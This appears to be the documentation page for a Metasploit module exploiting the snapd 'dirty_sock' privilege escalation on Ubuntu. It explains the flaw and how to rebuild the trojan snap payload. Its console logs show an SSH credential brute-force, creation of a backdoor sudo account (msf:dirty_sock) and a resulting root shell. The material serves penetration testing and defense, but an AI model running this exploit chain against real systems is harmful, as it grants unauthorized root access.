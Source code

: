 ## Vulnerable Application

This module exploits a vulnerability in the snapd service <2.34.2 on Ubuntu
14.04-18.04 and <2.35.5 on Ubuntu 18.10.
The service incorrectly parses a unix socket file name
containing a UID parameter, and honors it as the UID for the process.

Exploitation can be complicated since the snap container is run from a sandbox
with limited read/write to some files on the filesystem.

By default, the exploit creates a new user with sudo privileges (`msf`:`dirty_sock`).
It may take 30-60 seconds for that user to become viable from the successful completion
of the module.

Exploitation will also cause snapd to perform an auto-update, so this is
a one shot exploit.

### Extra Information

This module utilizes a snap package for exploitation.  A snap package is a squashfs
file which we base64 encode for easy delivery.  The snap package is run inside a sandbox
so exploitation vectors are limited.  The following were attempted to get a remote payload
to run:

1. Add a job to `/etc/crontab`. The snap package could read crontab, but was not able to write
2. Read/Write to the system `/tmp`. The snap package does not view the system `/tmp` but rather
a sandboxed `/tmp`.
3. Utilize networking (`curl`) to get a remote payload. Adding `network` to the snap package
did not result in the ability to successfully `curl` a payload from the attacker.
4. Dynamically add a payload to the snap package. There is limited to no support for dynamically
editing a `squashfs` file within ruby.  Since `squashfs` is compressed, attempts to perform raw
edits on the payload inside the base64 had very limited success and were not stable.

Also of note, attempts to stop snap from updating itself were unsuccessful. Bundling an edit to
`/etc/hosts` as documented here: https://askubuntu.com/questions/930593/how-to-disable-autorefresh-in-snap
did not prevent udpating. A second attempt to set `snap` to use a proxy directly as documented here:
https://discuss.linuxcontainers.org/t/disable-snap-auto-refresh-immediately/5333 were also
not successful.

### Altering Default Payload

The default payload is to create a new user with the `msf` username and `dirty_sock`
password.  However, it is relatively easy to edit the payload

To create a new payload:

1. `mkdir /tmp/snap_squash; cd /tmp/snap_squash`
2. `sudo unsquashfs <metasploit_root>/data/exploits/CVE-2019-7304/squash.fs`
3. Make any changes you want. This will most likely be in the `squashfs-root/meta/hooks/install`
or `squashfs-root/meta/snap.yaml` files
4. `mksquashfs /tmp/snap_squash/squashfs-root/ /tmp/snap_payload`
5. Now within metasploit after loading the module `set squash /tmp/snap_payload`

## Verification Steps

1. Start msfconsole
2. Get a shell on a vulnerable box
3. Do: `use post/linux/escalate/ubuntu_snapd_socket_privesc`
4. Do: `set session [#]`
5. Do: `run`
6. You should get a "Success!", and able to able to SSH in to the remote box, then `sudo` to root.

## Options

### SQUASH

This is the squashFS file with a snap package. See instructions in this document to modify it.

## Scenarios

### snapd 2.29.4.2 on Ubuntu 16.04


#### Initial Shell
```
[*] Processing snapd.rb for ERB directives.
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username ubuntu
username => ubuntu
resource (snapd.rb)> set password ubuntu
password => ubuntu
resource (snapd.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46713 -> 111.111.1.111:22 ) at 2022-03-15 18:52:06 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Priv Esc
```
resource (snapd.rb)> use post/linux/escalate/ubuntu_snapd_socket_privesc
resource (snapd.rb)> set session 1
session => 1
resource (snapd.rb)> set verbose true
verbose => true
resource (snapd.rb)> run
[*] Found snapd 2.29.4.2 on Ubuntu 16.04
[*] Using 'python' to run exploit
[*] Writing exploit to /tmp/.nUIPGYbWr7
[*] Max line length is 65537
[*] Writing 13110 bytes in 1 chunks of 48973 bytes (octal-encoded), using printf
[*] Launching exploit: python /tmp/.nUIPGYbWr7
[*] [+] Slipped dirty sock on random socket file: /tmp/qkmqdejlyv;uid=0;
[*] [+] Binding to socket file...
[*] [+] Connecting to snapd API...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] [+] Installing the trojan snap (and sleeping 8 seconds)...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] Success!
[+] Success! You can now login and sudo with msf:dirty_sock. However it may take several minutes for the account to finish creation.
[*] Post module execution completed
resource (snapd.rb)> sleep 30
```

#### Use new creds
```
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username msf
username => msf
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'msf:dirty_sock' 'uid=1001(msf) gid=1001(msf) groups=1001(msf),27(sudo) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (2.2.2.2:43069 -> 111.111.1.111:22 ) at 2022-03-15 18:53:08 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (snapd.rb)> use multi/manage/sudo
resource (snapd.rb)> set session 2
session => 2
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] Sudoing with password `dirty_sock'.
[+] SUDO: Root shell secured.
[*] Post module execution completed
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

id
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

snap version
snap    2.54.4
snapd   2.54.4
series  16
ubuntu  16.04
kernel  4.4.0-112-generic
```

